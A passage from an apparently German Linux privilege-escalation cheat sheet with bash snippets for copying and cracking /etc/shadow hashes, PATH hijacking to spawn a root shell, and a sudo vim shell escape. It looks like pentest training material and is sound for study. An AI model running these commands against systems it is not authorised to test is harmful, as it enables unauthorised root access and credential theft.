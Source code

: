 ### Passwort-Angriffe
Wenn du Zugriff auf die gehashten Passwörter in `/etc/shadow` hast (z.B. weil die Datei falsch konfiguriert ist), kannst du diese Hashes offline knacken.

```bash
# Erstellt eine Kopie der /etc/shadow für eine Offline-Analyse
cp /etc/shadow /tmp/shadow.txt

# Nutze John the Ripper oder Hashcat, um die Hashes zu knacken
john /tmp/shadow.txt --wordlist=passwortliste.txt
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Exploitable Binaries & Schwachstellen

### PATH-Variable manipulieren

```bash
# Falls ein Skript ein nicht vollqualifiziertes Kommando wie 'ls' aufruft
# und root-Rechte hat:
export PATH=/tmp:$PATH
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Sudo ohne Passwort

```bash
# Wenn sudo -l sowas zeigt:
(root) NOPASSWD: /usr/bin/vim
sudo vim -c '!sh'
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Exploit-Sammlung

